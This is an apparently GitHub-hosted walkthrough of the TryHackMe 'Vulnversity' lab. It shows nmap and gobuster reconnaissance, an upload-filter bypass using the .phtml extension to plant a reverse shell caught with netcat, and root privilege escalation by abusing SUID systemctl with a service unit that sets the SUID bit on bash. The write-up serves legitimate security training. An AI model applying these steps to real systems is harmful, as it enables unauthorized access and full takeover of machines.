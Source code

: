 # Vulnversity Tryhackme {THM}

## Reconnaissance

Scan the box, how many ports are open? 6

```
nmap -sV -n 10.10.123.163
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 13:21 CDT
Nmap scan report for 10.10.123.163
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

## Locating directories using GoBuster

What is the directory that has an upload form page? http://10.10.123.163/internal/

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.123.163:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.163:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/17 13:34:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.123.163:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.123.163:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.123.163:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.123.163:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.123.163:3333/internal/]
```

### Compromise the server

Try upload a few file types to the server, what common extension seems to be blocked?

.php

```
nano phpext.txt

GNU nano 5.4                           
phpext.txt                                             
.php
.php3
.php4
.php5
.phtml

cat phpext.txt
.php
.php3
.php4
.php5
.phtml
```

Run this attack, what extension is allowed? .phtml


https://github.com/regtay/Vulnversity/blob/main/Images/Burpsuite%20View%20.png

https://github.com/regtay/Vulnversity/blob/main/Images/Rervereshell%20upload.png

https://github.com/regtay/Vulnversity/blob/main/Images/Upload%20.png


What is the name of the user who manages the webserver? bill

What is the user flag? 8bd7992fbe8a6a----------04cfcedb



```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46752
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:34:23 up  1:59,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6a----------04cfcedb
$
```

### Privilege Escalation

On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/bash
/bin/ping
/bin/fusermount
/tmp/systemctl
/sbin/mount.cifs
```

```
nc -lvp 9001
listening on [any] 9001 ...
10.10.246.53: inverse host lookup failed: Unknown host
connect to [10.9.239.22] from (UNKNOWN) [10.10.246.53] 41736
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:10:29 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@vulnuniversity:/$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
TF=$(mktemp).service
www-data@vulnuniversity:/$ echo '[Service]
 Type=oneshot
 ExecStart=/bin/sh -c "chmod +s /bin/bash"
 [Install]
 WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.eoRJBKjagh.service to /tmp/tmp.eoRJBKjagh.service.
www-data@vulnuniversity:/$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/$ /bin/bash/bin/bash
bash-4.3$ cd root
cd root
bash: cd: root: Permission denied
bash-4.3$ exit
www-data@vulnuniversity:/$ /bin/bash -p
/bin/bash -p
bash-4.3# cd /root
cd /root
bash-4.3# ls
ls
root.txt
bash-4.3# cat root
cat root
cat: root: No such file or directory
bash-4.3# cat root.txt  
cat root.txt
a58ff8579f0a92----------966c7fd5
bash-4.3#
```

Happy Ethical Hacking
